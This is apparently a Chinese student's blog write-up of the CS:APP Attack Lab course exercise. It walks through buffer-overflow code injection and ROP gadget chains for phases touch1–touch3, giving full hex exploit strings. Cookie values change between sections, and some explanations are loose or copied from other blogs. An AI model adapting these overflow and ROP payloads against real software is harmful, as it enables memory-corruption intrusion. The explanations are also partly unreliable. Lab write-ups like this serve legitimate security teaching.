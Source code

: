 # Attack Lab

之前拖了一会儿作业，要去世了，现在补上吧

## touch1

这里是先执行test函数，然后退出。

但是要不执行完test，而去执行touch1

![image-20210504003846993](https://raw.githubusercontent.com/EaKal-7/Images/main/8sHPYmoVcapCBGu.png)

```c
unsigned int __cdecl getbuf()
{
  char buf[40]; // [rsp+0h] [rbp-28h] BYREF

  Gets(buf);
  return 1;
}
```

显然这里buf只开了40的内存，所以直接使用字符串攻击

```
.text:00000000004017C0 ; void __cdecl touch1()
```

所以使溢出的地址为touch1的地址即可（这里需要注意这个程序是小端的地址要倒写

```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
c0 17 40 00
```

## touch2

这道题我一开始没看懂，一开始一直以为是参数压栈的方式来攻击，发现我多少有点大病，然后去看了一眼blog.，大致上的画了一张图。

![image-20210507154651560](https://raw.githubusercontent.com/EaKal-7/Images/main/ROENfpWoJuQM6Td.png)

大致上是这么一个意思

将

```
movq $0x59b997fa,%rdi
pushq  $0x4017ec
ret
//转变为机械码
0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
9:	68 ec 17 40 00       	pushq  $0x4017ec
e:	c3                   	retq  
```

所以攻击序列为

```
48 c7 c7 fa
97 b9 59 68
ec 17 40 00
c3 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
78 dc 61 55
```

# touch3

![image-20210507154847522](https://raw.githubusercontent.com/EaKal-7/Images/main/IFfTnwOvuhA4XY2.png)

不难发现传入了一个参数这个参数与cookie进行了比较

![image-20210507155718748](https://raw.githubusercontent.com/EaKal-7/Images/main/Wq5MHs2z9YSubPK.png)

从汇编里可以发现了在touch3的开始将sval值设置成rdi，说明rdi是存放参数地址的那个寄存器。（PS：这里要求cookie是个字符串的所以要存在栈里）

所以有了以下攻击序列：

![image-20210507162145452](https://raw.githubusercontent.com/EaKal-7/Images/main/qy6FemW9Jzrhguf.png)

然后就mad显而易见的错误了，这里看到

![image-20210507162217555](https://raw.githubusercontent.com/EaKal-7/Images/main/kXhK5dj9LSGms3v.png)

在touch3里面有一个函数申请了110的空间，我直接az了，然后就有了下面这张

![image-20210507162313534](https://raw.githubusercontent.com/EaKal-7/Images/main/V4NvTFGZA7Pzc5K.png)

攻击序列：

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 
35 39 62 39 39 37 66 61 
00 00 00 00
```

ROP:

问了一些别的师傅，我一开始是不了解ROP的；

ROP简单来说有两个特性：

1.栈随机

2.栈只可读

 ## touch2:



![image-20210507162618951](https://raw.githubusercontent.com/EaKal-7/Images/main/UgaJkWCj8xqOQtS.png)

这里说明需要从Gadget中找到对应的片段来进行攻击就行了：

（然后悄悄地看了眼达不溜屁，

可以找到两个满足条件的gadget

```
popq     %rax
ret                  
mov      %rax,%rdi
ret
```

这里将rax出栈赋值成cookie，然后复制给rdi

于是攻击字符串为：

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
2d 1a 40 00 00 00 00 00 	//gadget1的起始地址
00 16 fb 73 00 00 00 00     //cookie
41 1a 40 00 00 00 00 00     //gadget2的起始地址
67 18 40 00 00 00 00 00     //touch2 的起始地址
```

## ROP touch3

这个我是真的没找到我直接看blog的，下面贴出所找到的指令：

```
mov   %rsp,%rax
ret
mov   %rax,%rdi
ret
popq  %rax         
ret                 
movl  %eax,%edx
ret
movl  %edx,%ecx
ret
movl  %ecx,%esi
ret
lea   (%rdi,%rsi,1),%rax
ret
mov   %rax,%rdi
ret
```

先把`%rsp`存储的栈顶指针值复制给`%rdi`， 再将`%eax`的值设置为`cookie`字符串地址在栈中的偏移量并复制给`%esi`，最后将二者相加即为`cookie`字符串的存储地址。当指令指到ret指令行时，说明一个函数已经结束了，这时候%rsp已经从被调用函数的栈指到了调用函数构建的返回地址位置。
所以当执行第一条指令时，%rsp指向当前栈顶即存储下一条指令的地址，而后面的指令执行完后最终不会使该%rsp值改变。
在第一条指令之后即从第二条指令开始，cookie字符串之前还有有9条指令，共占有72个字节即0x48字节，此即cookie字符串的地址在栈中的偏移量。

攻击字符串：

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
//以上（任意字节除0x0a）填充满整个缓冲区（56字节）以致溢出。
b7 1a 40 00 00 00 00 00 
//用gadget1的起始地址覆盖掉原先的返回地址。
41 1a 40 00 00 00 00 00  //gadget2的起始地址。
2d 1a 40 00 00 00 00 00  //gadget3的起始地址。
48 00 00 00 00 00 00 00  //cookie字符串地址在栈中的偏移量。
53 1a 40 00 00 00 00 00  //gadget4的起始地址。
a9 1a 40 00 00 00 00 00  //gadget5的起始地址。
ca 1a 40 00 00 00 00 00  //gadget6的起始地址。
4c 1a 40 00 00 00 00 00  //gadget7的起始地址。
41 1a 40 00 00 00 00 00  //gadget8的起始地址。
75 19 40 00 00 00 00 00  //touch3 的起始地址。
37 33 66 62 31 36 30 30  //cookie字符串的字节表示。
```

完结撒花

PS：最近在写BUU的WP，所以有点拖拉，尽量在近期将BUU的WP发出来，博客搞搞完。

